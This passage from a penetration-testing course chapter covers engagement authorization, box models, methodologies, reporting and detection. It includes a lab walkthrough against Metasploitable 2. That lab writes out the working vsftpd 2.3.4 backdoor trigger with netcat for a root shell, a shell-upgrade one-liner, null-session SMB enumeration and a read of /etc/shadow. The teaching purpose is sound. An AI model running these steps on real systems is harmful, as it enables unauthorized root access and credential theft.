A related discovery you must plan for: **finding evidence of a real, pre-existing compromise.** If, mid-engagement, you find that an attacker got there before you — active malware, an unfamiliar backdoor, signs of live intrusion — you stop offensive activity and escalate to your emergency contact immediately. You have wandered into a live crime scene; continuing could destroy evidence or interfere with a real incident. This belongs in the ROE as an explicit clause.

### Authorization — the document that makes it legal

The **authorization letter** (often a "get out of jail free" letter) is a signed document from someone with authority to grant it, stating that the named tester is permitted to perform the described testing against the described scope during the described window. Carry it — literally, on physical engagements. It is your proof, to law enforcement or to the client's own staff, that you are not a criminal. Key properties:

- Signed by someone who **actually owns** the systems or has authority to authorise testing of them (not a helpful mid-level manager who lacks the authority).
- Names the tester(s), the scope, and the timeframe precisely.
- Predates the first packet. Testing before the ink is dry is unauthorized access.



The commercial paperwork usually stacks as: a **Master Services Agreement (MSA)** setting the overall legal relationship, a **Statement of Work (SOW)** defining this specific engagement's scope/deliverables/price, an **NDA** protecting the client's data, and the **ROE + authorization** governing the technical work. Chapter 2 walks the legal side in full; here the point is simply that *no packet leaves your machine until this stack is signed.*

---

## Part 6: Black, Grey & White Box — and Announced vs. Unannounced

Two orthogonal decisions shape how an engagement runs: how much the tester is *told*, and how much the defenders *know*.

### The knowledge axis: black / grey / white box

- **Black box** — you are given nothing but the scope (e.g. a company name or an IP range). You start from zero, exactly like an external attacker. Most realistic for "what can an outsider do," but time-inefficient — you burn hours on recon a real attacker would also burn, and you may never find an issue that is obvious with a little inside knowledge.
- **Grey box** — you are given *some* information: a set of low-privileged credentials, network diagrams, an API spec, a user account. The most common commercial choice, because it models the realistic threat "a low-privileged insider or an attacker who already phished one employee" and spends the budget on *finding vulnerabilities* rather than on recon the client could have handed you.
- **White box** (a.k.a. clear/crystal box) — full information: source code, architecture docs, admin credentials, configs. Maximises coverage per dollar because you are not guessing; ideal for deep application security reviews and for finding the subtle logic flaws a scanner never sees. Least realistic as an "attacker simulation," most thorough as a "find every bug" exercise.

| Dimension | Black box | Grey box | White box |
|---|---|---|---|
| Information given | Scope only | Partial (creds, docs) | Full (source, configs) |
| Models the attacker | External unknown | Insider / post-phish | Auditor / full-knowledge |
| Time spent on recon | High | Medium | Low |
| Coverage per dollar | Lowest | Medium | Highest |
| Realism | Highest | High | Lowest |
| Best for | Perimeter reality-check | Most commercial pentests | Deep app/code review |

### The awareness axis: announced vs. unannounced

Independently of knowledge, decide whether the client's **defenders** know the test is happening.

- **Announced** — the SOC/blue team knows the window and scope. This is the norm for pentests; it avoids wasting the client's incident-response resources chasing you, and the goal is coverage, not stealth.
- **Unannounced** — the defenders do *not* know. This is how you test *detection and response*, and it is the hallmark of red-team work. It requires *someone* on the client side (a small "trusted agent" group) to know, for deconfliction and safety, even if the SOC does not.

> **This decision is where "pentest" and "red team" formally diverge.** A white-box announced test maximises finding-count and remediation value. A black-box unannounced engagement tests whether anyone is watching. Same tools, opposite optimisation. Make sure the client understands which they are buying.

---

## Part 7: The Formal Methodologies — PTES, OSSTMM, NIST, OWASP, ATT&CK

Everything above is the *shape* of an engagement. The industry has several formal, published methodologies that codify it, and you are expected to know them by name because clients, auditors, and job interviews reference them. None of them contradicts the lifecycle in Part 2; they are different lenses on the same arc.



### PTES — Penetration Testing Execution Standard

The most tester-facing methodology and the one whose phases most closely match this notebook. Its seven phases:

1. Pre-engagement Interactions
2. Intelligence Gathering
3. Threat Modeling
4. Vulnerability Analysis
5. Exploitation
6. Post-Exploitation
7. Reporting

PTES also ships **technical guidelines** — a genuinely useful catalogue of what to do at each phase and with which tools. If you internalise one methodology as a practitioner, PTES is the pragmatic default, and it maps almost one-to-one onto Part 2's lifecycle.

### OSSTMM — Open Source Security Testing Methodology Manual

More scientific and metric-driven than PTES. Its distinguishing idea is the **RAV (Risk Assessment Value)** — an attempt to express an environment's security state as a repeatable *number* derived from operational controls, so two testers assessing the same target should arrive at comparable measurements. OSSTMM cares less about a tool checklist and more about *operational security* and measurability. It is heavier and less commonly followed line-by-line, but its emphasis on repeatable, evidence-backed measurement is worth absorbing.

### NIST SP 800-115 — Technical Guide to Information Security Testing

The U.S. government's guidance, and the one auditors love because it is an official standard. It condenses the work into four phases: **Planning → Discovery → Attack → Reporting** (with a feedback loop from Attack back to Discovery). Simple, defensible, compliance-friendly. If a client says "we need a NIST-aligned test," this four-phase frame is what they mean.

### OWASP — the web/mobile-specific standards

Where PTES/OSSTMM/NIST are *general*, OWASP publishes deep, checklist-grade methodologies for specific surfaces:

- **WSTG (Web Security Testing Guide)** — an exhaustive, test-case-by-test-case methodology for web apps (information gathering, auth, session management, input validation, business logic, etc.). When you test a web app, the WSTG is your coverage checklist.
- **MASTG / MASVS (Mobile)** — the equivalent for mobile apps, plus a verification standard.
- **ASVS (Application Security Verification Standard)** — leveled requirements you verify an app against.
- **The OWASP Top 10** — not a methodology but the famous awareness list of the most critical web risks; useful as a communication tool with clients, not as a test plan.

### Adversary models — Kill Chain, ATT&CK, Diamond

These describe *the attacker*, and testers use them to structure emulation and, crucially, to talk to blue teams.

- **Lockheed Martin Cyber Kill Chain** — seven linear stages: Reconnaissance → Weaponization → Delivery → Exploitation → Installation → Command & Control → Actions on Objectives. Great for explaining an intrusion as a story and for showing defenders where they could have broken the chain.
- **MITRE ATT&CK** — the dominant framework today: a giant matrix of adversary **Tactics** (the *why* — columns like Initial Access, Execution, Persistence, Privilege Escalation, Lateral Movement, Exfiltration) and **Techniques** (the *how* — cells like T1078 Valid Accounts, T1059 Command and Scripting Interpreter, T1021 Remote Services). You map your engagement's actions to ATT&CK technique IDs so the client's blue team can check "did our detections fire for T1059.001?" ATT&CK is the shared vocabulary of offense and defense — Chapter 3 of Security Foundations introduced it, and it recurs constantly.
- **Diamond Model** — describes each intrusion event as a relationship between four vertices: Adversary, Capability, Infrastructure, Victim. More an analysis/attribution lens than a testing plan, but named often enough to recognise.

| Framework | Type | You use it to… |
|---|---|---|
| PTES | Engagement methodology | Structure the whole engagement (default) |
| OSSTMM | Metric-based methodology | Produce measurable, repeatable results |
| NIST SP 800-115 | Compliance methodology | Satisfy auditors; 4-phase frame |
| OWASP WSTG/MASTG | Surface-specific checklist | Get full coverage on web/mobile |
| Cyber Kill Chain | Adversary model | Tell the intrusion story to execs |
| MITRE ATT&CK | Adversary technique matrix | Map actions to detections with blue team |

### How the methodologies map onto one lifecycle

The reason you can learn *one* lifecycle and still speak every methodology is that they are all describing the same arc with different phase boundaries. This table lines them up so you can translate on demand — a client who says "NIST Discovery phase" means the same work you call "Recon + Scanning + Enumeration":

| This notebook's phase | PTES | NIST SP 800-115 | Cyber Kill Chain |
|---|---|---|---|
| Pre-engagement | Pre-engagement Interactions | Planning | — |
| Reconnaissance | Intelligence Gathering | Discovery | Reconnaissance |
| Scanning & Enumeration | Intelligence Gathering | Discovery | Reconnaissance |
| Vulnerability Analysis | Threat Modeling + Vuln Analysis | Discovery | Weaponization |
| Exploitation | Exploitation | Attack | Delivery + Exploitation |
| Post-Exploitation | Post-Exploitation | Attack | Installation + C2 + Actions |
| Reporting | Reporting | Reporting | — |

Notice what *no* methodology has a phase for: the Kill Chain, being an adversary model, has nothing before recon (attackers do not sign contracts) and nothing after "Actions on Objectives" (attackers do not write remediation reports). That gap is precisely the difference between a real adversary and a professional tester — the paperwork at the front and the report at the back are what make you the good guy.

> **CTF & bug-bounty angle:** CTF boxes and bug-bounty targets do not hand you a methodology, but applying one is the fastest way to stop flailing. On a HackTheBox machine, running the PTES loop — recon, full enum, validate, exploit, privesc — beats randomly trying exploits. On bug bounty, the OWASP WSTG is a literal checklist to make sure you have not skipped a class of bug (you tested for IDOR, but did you test business logic? session fixation? mass assignment?). Methodology is not just for paid work; it is how you stop missing the obvious.

---

## Part 8: The Report — the Thing the Client Actually Bought

Say it once more because it is the lesson most testers learn too late: **the report is the deliverable.** A brilliant compromise documented in an unusable report is worth less than a modest finding written up so clearly the client fixes it the same afternoon. Reporting is a skill you practise deliberately.

### Structure — layered for two audiences

A professional report is layered so an executive and an engineer can each get what they need:

1. **Executive Summary** — one page, plain English, no jargon. What was tested, the overall risk posture, the handful of things that matter most, and the business impact. A CFO should understand it. This is where you write "an external attacker could reach the customer database within one day using only publicly-known weaknesses," not "we exploited CVE-2021-41773."
2. **Scope & Methodology** — what was in scope, what was excluded, the dates, the box model, and which methodology you followed (PTES/OWASP/NIST). This is the defensibility section: it proves you tested what you were asked to and how.
3. **Findings** — the technical heart. One entry per finding, each containing:
   - **Title** and **risk rating** (see below).
   - **Description** — what the weakness is.
   - **Affected assets** — exactly which host/URL/parameter.
   - **Reproduction steps** — the exact commands/requests, so an engineer can reproduce it. This is non-negotiable; a finding that cannot be reproduced cannot be fixed or believed.
   - **Evidence** — screenshots, request/response captures, output. Redact real sensitive data.
   - **Impact** — what an attacker gains.
   - **Remediation** — concrete, actionable fix guidance ("upgrade Apache to 2.4.51+", "enforce parameterised queries in `search.php`"), not "apply security best practices."
4. **Appendices** — full tool output, raw scan data, an ATT&CK mapping, out-of-scope observations.

### Risk rating — CVSS and beyond

Each finding gets a severity. The industry default vocabulary is **CVSS (Common Vulnerability Scoring System)**, which produces a 0–10 score from metrics like Attack Vector, Attack Complexity, Privileges Required, and Impact to Confidentiality/Integrity/Availability. Map the score to a band: Critical (9.0–10), High (7.0–8.9), Medium (4.0–6.9), Low (0.1–3.9), Informational.

But **CVSS base score is context-free**, and your job is to add context. Risk is roughly *likelihood × impact in this environment*. A CVSS-6.5 "medium" that, in this specific network, chains to Domain Admin is not a medium — you rate it by the business risk and *say why* in the finding. Good testers include a short business-risk narrative alongside the CVSS number, because the client makes budget decisions on risk, not on a decimal.

| Rating | Rough meaning | Typical client expectation |
|---|---|---|
| Critical | Trivial to exploit, severe impact (e.g. unauth RCE, full data breach) | Fix immediately / emergency change |
| High | Exploitable with real impact (privesc to admin, sensitive data exposure) | Fix in days |
| Medium | Requires conditions or gives limited impact | Fix in the next cycle |
| Low | Minor, hard to exploit, or low impact | Fix when convenient |
| Informational | Not a vulnerability; hardening/observation | Optional |

### What a good executive summary actually reads like

The single hardest paragraph in the report is the executive summary, because it must convey *business* risk with *zero* jargon. Compare a bad and a good opening line for the same finding:

- **Bad (engineer-speak, useless to a CFO):** "We identified an unauthenticated RCE via CVE-2021-41773 path traversal on the perimeter Apache instance, pivoting via reused NTLM credentials to achieve DA."
- **Good (business risk, actionable):** "An attacker on the public internet, using only a publicly-known flaw and no credentials, could take full control of your customer-facing server within an hour, and from there reach the internal network and the account that administers your entire Windows domain. In plain terms: a stranger could reach every file and system in the company. Two changes — patching one web server and rotating one shared password — remove this path entirely."

The good version names the *actor* (a stranger on the internet), the *impact in business terms* (control of everything), and the *cost to fix* (two concrete changes). That is what a board approves budget against.

### Remediation guidance — actionable, not aspirational

The weakest part of most reports is the "Remediation" line, which too often reads "apply security best practices" or "ensure proper input validation" — advice no engineer can act on. Good remediation is specific enough to turn into a ticket:

| Weak (useless) | Strong (a ticket) |
|---|---|
| "Patch the server" | "Upgrade Apache httpd to 2.4.51 or later on host 10.0.0.5; 2.4.49–2.4.50 are affected by CVE-2021-41773/42013." |
| "Fix SQL injection" | "In `search.php` line 42, replace string concatenation with a parameterised query (`PDO::prepare`) binding the `q` parameter." |
| "Use strong passwords" | "Rotate the shared `svc_backup` account password, make it unique per host, and add it to the tier-0 vault; it is currently reused on 14 servers." |

Pair each finding's remediation with its risk rating so the client can triage: fix criticals now, batch the lows into the next maintenance cycle.

### Reporting discipline during the test

The reason experienced testers write findings *as they go* is that evidence is perishable. The screenshot you did not take, the exact payload you did not paste into your notes, the timestamp you did not record — you cannot reconstruct them at report time. Adopt a note-taking system on day one (Part 10 shows one) and treat "captured the evidence" as part of "completed the finding," not a separate chore for later.

---

## Part 9: Hands-On Lab — A Full Mock Engagement, End to End

Reading the lifecycle is not the same as running it. This lab walks a complete miniature engagement against a single vulnerable target so you *feel* the arc — pre-engagement, recon, scan, enumerate, validate, exploit, post-exploit, note, report. It assumes the isolated lab from Security Foundations Chapter 6: a Kali attacker box and a **Metasploitable 2** target on a host-only network. Everything here is against a machine you own, on an isolated network — the only place this is legal to run.

Throughout, notice the *note-taking* as much as the commands. That discipline is the point.

### Step 0 — Pre-engagement (simulated)

On a real job this is signed paperwork. In the lab, write yourself a scope file so the habit forms.

```bash
mkdir -p ~/engagements/acme-lab/{scans,loot,evidence,notes}
cd ~/engagements/acme-lab
cat > SCOPE.md <<'SCOPEEOF'
# Engagement: ACME Lab (practice)
Target:      10.0.0.5   (Metasploitable 2, host-only)
Out of scope: everything else on 10.0.0.0/24, the host, the internet
Window:      always (personal lab)
Box model:   black box
Depth:       exploitation + post-ex + privesc allowed; no persistence
ROE notes:   destructive DoS not permitted; document everything
Emergency:   n/a (own hardware)
SCOPEEOF
```

- `mkdir -p ... {scans,loot,evidence,notes}` creates the whole directory tree in one command; the `-p` flag makes parent directories as needed and does not error if they already exist. A consistent folder layout per engagement is the difference between finding your evidence at report time and not.
- The heredoc (`<<'SCOPEEOF' ... SCOPEEOF`) writes a multi-line file; quoting the delimiter stops the shell expanding anything inside it.

### Step 1 — Reconnaissance & host discovery

In a black-box internal engagement, first find what is alive in scope.

```bash
nmap -sn 10.0.0.0/24 -oN scans/01-hostsweep.txt
```

- `-sn` — "ping scan": discover live hosts, do **not** port-scan them. (Older Nmap called this `-sP`.)
- `-oN scans/01-hostsweep.txt` — write **n**ormal human-readable output to a file. *Always save scan output to a file* — you will need it verbatim in the report, and re-running scans wastes time and adds noise. `-oA <base>` saves normal+XML+grepable at once and is the pro default.

Realistic output:

```
Nmap scan report for 10.0.0.5
Host is up (0.00042s latency).
MAC Address: 08:00:27:AB:CD:EF (Oracle VirtualBox virtual NIC)
Nmap done: 256 IP addresses (1 host up) scanned in 2.13 seconds
```

Only `10.0.0.5` is up — our scoped target. Note it and move on.

### Step 2 — Port scan & service/version detection

```bash
nmap -sV -sC -p- --open 10.0.0.5 -oA scans/02-full-tcp
```

- `-sV` — probe open ports to determine the **service and version** behind each. This is the single most valuable flag for a tester: versions drive the whole vulnerability-analysis phase.
- `-sC` — run Nmap's **default script** set (equivalent to `--script=default`): safe, informative NSE scripts that enumerate as they scan (anonymous FTP, SMB details, HTTP titles).
- `-p-` — scan **all 65535 TCP ports**, not just the top 1000 default. Real footholds hide on high ports; skipping `-p-` is how beginners miss the finding.
- `--open` — only show ports that are open, keeping output clean.
- `-oA scans/02-full-tcp` — save all three output formats with that basename.

Trimmed realistic output (Metasploitable 2 is famously loud):

```
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
```

Now the **vulnerability-analysis brain** engages. `vsftpd 2.3.4` immediately stands out — that exact version shipped with a notorious backdoor (a `:)` in the username triggers a root shell on port 6200). That is our lead. Write it down:

```bash
cat >> notes/findings.md <<'NOTEEOF'
## Lead: vsftpd 2.3.4 backdoor (port 21)
- Version banner: vsftpd 2.3.4 — known backdoored release (VSFTPD smiley backdoor).
- Hypothesis: sending a username ending in ":)" opens a root shell on 6200.
- Status: UNVALIDATED — confirm next.
NOTEEOF
```

### Step 3 — Validate the lead (do not trust the banner alone)

A version banner can be spoofed or backported. Confirm the behaviour manually before claiming it. Trigger the backdoor by hand with a raw connection:

```bash
# Terminal 1: trip the backdoor
nc 10.0.0.5 21
# after it greets you, type:
USER pentest:)
PASS anything
```

Then, in a second terminal, check whether the magic port opened:

```bash
# Terminal 2: connect to the backdoor's listener
nc 10.0.0.5 6200
id
```

Realistic result:

```
uid=0(root) gid=0(root)
```

`uid=0(root)` — the lead is validated and it is *root* directly. Update the note from UNVALIDATED to confirmed, and capture evidence:

```bash
# capture proof for the report
script -c 'nc 10.0.0.5 6200 <<< "id; hostname; whoami"' evidence/vsftpd-backdoor.log
```

- `nc` (netcat) — the "TCP/IP Swiss army knife": opens a raw TCP connection to `host port` and pipes your keyboard to it and its output to your screen. The first time you use it, that is all it is — a manual way to speak a text protocol like FTP by hand, which is exactly why it validates banner behaviour a scanner would only guess at.
- `script -c '<cmd>' file.log` — records a full terminal session (input and output) to `file.log`, giving you a timestamped, reproducible evidence artefact.

> **Reporting discipline in action:** notice we captured evidence *at the moment of exploitation*, not later. That log, plus the exact commands, is a complete finding: reproduction steps, evidence, and impact (root) all captured while it was fresh.

### Step 4 — Parallel enumeration (never rely on one path)

A professional does not stop at the first shell — you enumerate the other services too, both to find additional findings and because in a real engagement your first exploit might not work. Check SMB, since Metasploitable exposes it:

```bash
# list SMB shares as an anonymous/null session
nxc smb 10.0.0.5 -u '' -p '' --shares
```

- `nxc` (**NetExec**, the maintained successor to CrackMapExec) — a swiss-army tool for enumerating and attacking SMB/LDAP/WinRM/MSSQL across a network. First-use summary: you point it at a host or range with a protocol (`smb`), give it credentials (here the empty **null session** `-u '' -p ''`), and a module (`--shares` lists file shares). It is the fastest way to answer "what can this account see?"

Realistic output:

```
SMB  10.0.0.5  445  METASPLOITABLE  [+] metasploitable\ (Guest)
SMB  10.0.0.5  445  METASPLOITABLE  [*] Enumerated shares
SMB  10.0.0.5  445  METASPLOITABLE  Share    Permissions  Remark
SMB  10.0.0.5  445  METASPLOITABLE  tmp      READ,WRITE   oh noes!
SMB  10.0.0.5  445  METASPLOITABLE  print$   READ
```

A writable anonymous share (`tmp READ,WRITE`) is a second, independent finding worth its own report entry. In a real black-box job, having *two* independent paths in is exactly what you want — redundancy proves the perimeter is broadly weak, not fragile-on-one-service.

### Step 5 — Post-exploitation: stabilise, discover, loot (safely)

Back on the root shell from Step 3, stabilise and gather *proof of impact* without touching real data (in the lab there is none, but practise the discipline):

```bash
# from the netcat root shell:
python -c 'import pty; pty.spawn("/bin/bash")'   # upgrade to a real TTY
uname -a                                          # kernel/OS for the report
cat /etc/shadow | head                            # proof of full read access
ls -la /root                                      # crown-jewel location check
```

- `python -c 'import pty; pty.spawn("/bin/bash")'` — the classic shell-upgrade one-liner: it spawns a proper pseudo-terminal so features like `sudo`, tab-completion, and job control work, turning a fragile "dumb" shell into a usable one. This is the first move after nearly every foothold.
- Reading `/etc/shadow` (the hashed-password file, root-only) is a clean, non-destructive way to *prove* you have full read access for the report — you screenshot that you *can* read it; you do not crack and use the hashes on a real client without that being in scope.

Record what you touched, because cleanup and the report both need it:

```bash
cat >> notes/actions.md <<'ACTEOF'
## Actions log
- 14:07 triggered vsftpd 2.3.4 backdoor -> root shell on 6200 (evidence/vsftpd-backdoor.log)
- 14:09 upgraded to PTY, ran uname/id/whoami for evidence
- 14:11 confirmed read of /etc/shadow (impact: full compromise)
- No files uploaded, no accounts created, no persistence (out of ROE)
ACTEOF
```

### Step 6 — Map to ATT&CK and draft the finding

Translate the technical work into the language the blue team and report use:

- Initial access via a backdoored service → ATT&CK **T1190 Exploit Public-Facing Application**.
- Root-level command execution → **T1059 Command and Scripting Interpreter**.
- Reading `/etc/shadow` → **T1003.008 OS Credential Dumping: /etc/passwd and /etc/shadow**.

Draft the report finding while it is fresh:

```markdown
### Finding 1 — Backdoored vsftpd 2.3.4 grants unauthenticated root (Critical)
- **Asset:** 10.0.0.5, TCP/21
- **CVSS:** 10.0 (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H) — Critical
- **ATT&CK:** T1190, T1059, T1003.008
- **Description:** The FTP service runs vsftpd 2.3.4, a release distributed with
  a malicious backdoor. A username ending in ":)" opens an unauthenticated root
  shell on TCP/6200.
- **Reproduction:** `nc 10.0.0.5 21` -> `USER x:)` / `PASS x`; then `nc 10.0.0.5 6200` -> `id` returns uid=0(root).
- **Evidence:** evidence/vsftpd-backdoor.log
- **Impact:** Complete, unauthenticated compromise of the host as root.
- **Remediation:** Remove vsftpd 2.3.4 immediately; reinstall from a trusted
  package source (any maintained vsftpd is fine); restrict FTP exposure; rebuild
  the host, as a backdoored binary implies the system integrity cannot be trusted.
```

That is the whole arc — scope, recon, scan, validate, exploit, post-exploit, note, map, report — executed once against one box. Every later chapter deepens one of these steps; the *shape* never changes.

### Lab wrap-up

You have run a complete engagement in miniature and, more importantly, built the *habits*: save every scan to a file, validate before you claim, capture evidence at the moment you get it, log every action with a timestamp, and translate technical work into report language and ATT&CK IDs. Those habits, not the vsftpd trick, are what transfer to real work.

---

## Part 10: Note-Taking, Evidence & Tooling for Methodology

A methodology is only as good as your ability to *record* your execution of it. The tooling here is unglamorous and decisive.

**Note-taking systems.** Pick one and use it every engagement:

- **Obsidian / CherryTree / Joplin** — Markdown or tree-structured notebooks, per-engagement vaults, great for linking findings.
- **Markdown + a folder convention** (as in the lab) — dead simple, version-controllable, portable. Many pros never need more.
- **Purpose-built reporting platforms** — PlexTrac, Dradis, Ghostwriter, SysReptor — manage findings, evidence, and report generation across a team, with reusable finding libraries so you are not rewriting the same "SMB signing not required" remediation for the hundredth time.

**What every note must capture, per action:** timestamp, target, exact command/request, result, and where the evidence lives. If you cannot answer "what did you do at 14:32?" from your notes, your notes have failed.

**Evidence handling.** Screenshots and captures often contain client-sensitive data. Store them encrypted, redact PII in the report, and destroy your working copies per the ROE's retention terms once the engagement closes. Client data on your laptop is a liability the moment the report ships.

**Time-boxing.** A real engagement is a fixed budget of days. Allocate it deliberately (a rough external-pentest split might be 20% recon+scan, 30% enum+vuln analysis, 25% exploitation, 15% post-ex, 10% reporting) and *watch the clock*. The commonest rookie failure is rat-holing on one difficult exploit for two days while five easy, higher-impact findings sit un-tested. Methodology includes knowing when to move on.

---

## Part 11: Detection & Defense Angle

Every phase of the lifecycle leaves traces, and understanding them serves both sides: as a tester you know what you are lighting up, and as a defender you know where to watch. This section consolidates the defensive view (detection is the one dimension that earns its own section rather than being scattered).



- **Recon** — passive recon is nearly invisible; active recon starts to show as unusual DNS queries, zone-transfer attempts, and outside-hours header probes. Defensive lesson: monitor your *own* external attack surface so you see what recon reveals.
- **Scanning** — a full `-p-` scan is a loud, sequential SYN pattern across thousands of ports, trivially caught by any IDS (Snort/Suricata) or firewall rate-limiting. This is why unannounced red teams scan slowly and selectively; a normal announced pentest does not care and scans fast.
- **Enumeration** — SMB null sessions, LDAP anonymous binds, and directory brute-forcing (hundreds of 404s in seconds) are all logged: authentication logs, web-server logs, WAF events. A tuned SIEM alerts on the 404 flood.
- **Exploitation** — signature-based IDS/IPS and EDR catch known exploit payloads; a service crash or restart is itself a signal. Anomalous requests (path traversal strings, SQLi patterns) hit WAF rules.
- **Post-exploitation** — the richest detection surface: new processes spawning from web-server or Office parents (Sysmon Event ID 1), reads of `/etc/shadow` or LSASS access, new local accounts, unusual internal authentication (lateral movement), scheduled-task creation. This is where a competent EDR earns its keep, and where the ATT&CK mapping you did in the lab tells the blue team exactly which detections *should* have fired.

**The purple-team payoff:** because you mapped every action to ATT&CK IDs, the client can run your report against their detection coverage and find the gaps — "the tester did T1059.001 and no alert fired; we need a detection there." That feedback loop, from your methodology-driven notes straight into detection engineering, is often the single most valuable thing a pentest produces.

> **Deconfliction, from the defender's side:** this is why the ROE names a trusted contact. When the SOC sees your scan, they call the contact, confirm "that's the pentest," and stand down — instead of triggering a full, expensive incident response against you. On an *unannounced* red-team op, they *should* trigger that response, because catching you is the test.

---

## Part 12: Common Pitfalls & How to Avoid Them

- **Starting Nmap before the paperwork is signed.** The most serious mistake and a potential crime. No packet leaves your box until scope, ROE, and authorization are signed and the window is open.
- **Attacking out-of-scope or client-doesn't-own assets.** Verify ownership of every target. A subdomain pointing at a third party is not yours to test even if the client listed it.
- **Reporting unvalidated scanner output as fact.** "Nessus said so" is not a finding. Validate everything you report, or explicitly mark it "potential — unverified."
- **Running a destructive exploit on production.** The exploit that *might* crash a live service is a last resort, cleared with the client. A crashed prod database ends engagements and reputations.
- **No notes, no evidence.** Skipping the timestamp-command-result-evidence discipline means you cannot reproduce findings, cannot answer the client's "what did you do at X", and cannot write a credible report.
- **Rat-holing / no time-boxing.** Spending two days on one hard exploit while easy high-impact findings go untested. Watch the clock; move on.
- **Stopping at the first shell.** The foothold is the *start* of proving impact, not the end. Privilege-escalate, discover data, show what an attacker actually gets.
- **A great hack, an unusable report.** The report is the product. A finding an engineer cannot reproduce and a fix they cannot action is a wasted finding.
- **Ignoring cleanup.** Uploaded tools, created accounts, and persistence you did not remove (and did not document) leave the client *less* secure than before.
- **Forgetting the "prior breach" clause.** If you find a real attacker got there first, stop and escalate — do not keep hacking through someone else's crime scene.

---

## Part 13: Final Revision — The Chapter in Compressed Form

- A **penetration test** is an *authorized, scoped, goal-oriented* simulated attack whose deliverable is a **report** that lets the owner fix what you found — every word matters.
- It differs from a **vuln scan** (automated, unvalidated, no exploitation), a **red team** (stealthy, detection-focused, unannounced), and **bug bounty** (crowdsourced, continuous).
- The **engagement lifecycle**: Pre-engagement → Recon → Scanning & Enum → Vuln Analysis → Exploitation → Post-Exploitation → Reporting → Remediation & Retest. It **loops** (new host → back to scanning); reporting is a **phase**, written as you go.
- **Pre-engagement is where legality lives**: scope (what), ROE (how/when + emergency contact + stop conditions), and a signed **authorization letter** that predates the first packet. No paperwork, no packets.
- **Box models** — black (nothing), grey (partial, most common), white (full, best coverage). Orthogonally: **announced** (coverage) vs **unannounced** (tests detection = red team).
- **Formal methodologies** — **PTES** (7 phases, practitioner default), **OSSTMM** (metric/RAV), **NIST SP 800-115** (4 phases, compliance), **OWASP WSTG/MASTG** (web/mobile checklists), and adversary models **Cyber Kill Chain**, **MITRE ATT&CK** (the shared offense/defense vocabulary), **Diamond Model**.
- **Enumeration is the key** — footholds come from looking harder, not from cleverer exploits. **Validate before you claim.** **Prove impact** in post-ex.
- **The report** is layered (exec summary → scope/methodology → findings with reproduction+evidence+remediation → appendices), findings rated with **CVSS + business context**.
- **Detection**: every phase leaves traces; mapping actions to ATT&CK turns your notes into the blue team's detection-gap analysis. **Deconfliction** via the ROE contact stops a real IR fire drill.

---

## Part 14: Cheat Sheet / Quick Reference

**The lifecycle (memorise the order):**

```
Pre-engagement -> Recon -> Scan/Enum -> Vuln Analysis -> Exploit -> Post-Ex -> Report -> Retest
    (paperwork)   (OSINT)   (nmap)     (validate)    (foothold) (privesc) (deliverable) (verify)
```

**Pre-engagement checklist (nothing starts until all done):**

```
[ ] Scope agreed & written (targets IN and OUT, ownership verified)
[ ] Assessment type & depth defined (exploit? post-ex? persistence?)
[ ] Box model chosen (black / grey / white)
[ ] Announced or unannounced decided
[ ] ROE signed (window, permitted techniques, data handling)
[ ] Emergency contacts exchanged (both sides, 24/7)
[ ] Stop conditions defined (incl. prior-breach clause)
[ ] Authorization letter signed, predates first packet
[ ] Note-taking + evidence-storage set up
```

**Box models:**

| | Info given | Models | Best for |
|---|---|---|---|
| Black | scope only | outsider | perimeter reality |
| Grey | partial creds/docs | insider/post-phish | most pentests |
| White | source/configs | auditor | deep code review |

**Methodology name-drops (know these cold):**

```
PTES          7 phases, tester default
OSSTMM        metric-based, RAV score
NIST 800-115  Planning->Discovery->Attack->Reporting (compliance)
OWASP WSTG    web app coverage checklist
OWASP MASTG   mobile app checklist
Kill Chain    Recon->Weaponize->Deliver->Exploit->Install->C2->Actions
MITRE ATT&CK  Tactics (why) x Techniques (how), shared vocab
```

**Core lab commands used this chapter:**

```bash
nmap -sn 10.0.0.0/24 -oN hosts.txt          # host discovery (ping sweep)
nmap -sV -sC -p- --open <ip> -oA fulltcp    # full port + service + default scripts
nc <ip> <port>                              # raw TCP: banner-grab / speak protocol by hand
nxc smb <ip> -u '' -p '' --shares           # SMB null-session share enumeration
script -c '<cmd>' evidence/proof.log        # record a session as report evidence
python -c 'import pty;pty.spawn("/bin/bash")'  # upgrade a dumb shell to a real TTY
```

**Report skeleton:**

```
1. Executive Summary        (1 page, plain English, business risk)
2. Scope & Methodology      (what/when/how, defensibility)
3. Findings                 (title, CVSS+context, asset, repro, evidence, impact, fix)
4. Appendices               (raw output, ATT&CK map, out-of-scope notes)
```

**CVSS bands:** Critical 9.0–10 · High 7.0–8.9 · Medium 4.0–6.9 · Low 0.1–3.9 · Info 0. *Always add business context — a "medium" that reaches Domain Admin is not a medium.*

---

## Part 15: Practice Labs & Resources

Train the *methodology*, not just individual tools. The point is to run the whole loop repeatedly until the phases become reflex.

- **TryHackMe — "Penetration Testing Fundamentals" and the "Jr Penetration Tester" path.** These are the closest match to this chapter: they drill the lifecycle, scoping, and methodology before the tooling. Also the **"Nmap"** and **"Network Services"** rooms for the scan/enum phases.
- **TryHackMe — "Blue" and "Ice"** — beginner boxes where you run the full recon→scan→exploit→post-ex arc against a Windows target, good for practising note-taking discipline.
- **HackTheBox — "Starting Point" tier (Meow, Fawn, Dancing, Redeemer, Explosion).** Deliberately gentle machines designed to teach the *process*; do them while consciously following PTES phases and writing a mini-report for each.
- **HackTheBox Academy — "Penetration Testing Process" module** — a structured walk through the exact lifecycle in this chapter, with an assessment.
- **Metasploitable 2 / 3** — the lab target from Security Foundations Ch. 6; run a full self-scoped mock engagement against it and *write the whole report*, executive summary included. Reporting practice is rarer and more valuable than exploitation practice.
- **The primary sources — read them once, reference them forever:** the **PTES** wiki (pentest-standard.org), **NIST SP 800-115** (free PDF), the **OWASP Web Security Testing Guide**, and the **MITRE ATT&CK** matrix (attack.mitre.org). You are expected to recognise and cite these on the job and in interviews.
- **Public sample reports** — search for published pentest report templates/samples (e.g. TCM Security's sample report, the OSCP exam report guide). Reading real reports teaches the deliverable faster than any lecture.

